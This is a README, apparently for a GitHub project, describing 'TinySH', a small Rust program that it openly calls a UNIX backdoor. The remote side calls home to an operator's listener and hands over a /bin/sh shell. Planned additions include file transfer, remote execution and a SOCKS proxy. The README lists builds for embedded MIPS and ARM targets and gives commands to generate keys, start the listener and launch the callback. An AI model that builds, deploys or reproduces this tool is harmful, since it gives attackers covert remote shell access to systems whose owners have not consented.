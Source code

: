 # TinySH v0.1.0

TinySH is a statically-compiled UNIX backdoor written in the rust programming language.
We agressively optimize for size and have selected a minimal set of features 
to securly administer a remote system.

## Overview

![Control Flow Graph](/docs/images/control-flow.png)

### Actions

- Shell: This sets up a nice TTY environment that captures `CTRL-C`, arrows, backspace, and other niceties.
Then, it calls the remote's `/bin/sh`, piping `STDIO` over the relay.
- Put\*: This will put a file from the local machine to the remote machine.
- Get\*: This will get a file from the remote machine and save it to the local machine.
- Execute\*: This will execute a file on the remote machine.

\* Planned feature for release in v0.2.0

### Supported Architectures

| Target Triple                     | Size      |
| --------------------------------- | --------- |
| mips64el-unknown-linux-muslabi64  | 88K       |
| mips-unknown-linux-musl           | 88K       |
| mipsel-unknown-linux-musl         | 88K       |
| i686-unknown-linux-musl           | 76K       |
| mips64-unknown-linux-muslabi64    | 88K       |
| x86\_64-unknown-linux-musl        | 76K       |
| aarch64-unknown-linux-musl        | 56K       |
| arm-unknown-linux-musleabi        | 68K       |

## Building

You can use `docker` to build TSH by running: 

`./scripts/docker.sh`

and then

`ARCH='x86_64' LIBC='musl' ./scripts/build.sh`

Ensure to change the `ARCH` and `LIBC` variables to match your desired build from the table above.

If you don't have docker, you'll need [rustup](https://rustup.rs/). 
After you have that, you should be able to use the build script above.

### Building for all arches

To do this, use the helper script `scripts/build_all.sh`

### Building for development

As demonstrated in `scripts/run_debug.sh`, you can do the following to run the local side:

```
# build a new key
cargo run --bin tshl $ARCH -- key-gen -o key.priv

# start the local client
cargo run --bin tshl $ARCH -- listen -k key.priv -a "127.0.0.1:2000"
```

Take note of the public key output by the local client, this is used in the argv of the remote.
In a new terminal, you can start the remote side:

```
# start the remote client
cargo run --bin tshr $ARCH -- "127.0.0.1:2000" ${KEY}
```

## Other Notes

The remote client is designed to be a single-use connection. 
It calls home, decides what to do, does the thing, and then exits.
It's worth while to consider running it in a loop to call home multiple times if desired.

## Future Features

1. More unit tests
1. Fuzzing
1. GitHub CI to build releases automatically
1. Get/Put/Execute
1. Socks proxy

## References

TSH makes heavy use of the materials from:
- [min-sized-rust](https://github.com/johnthagen/min-sized-rust)
- [Tighten rust's belt](https://dl.acm.org/doi/abs/10.1145/3519941.3535075)
- [Embedded Rust Book](https://docs.rust-embedded.org/book/)
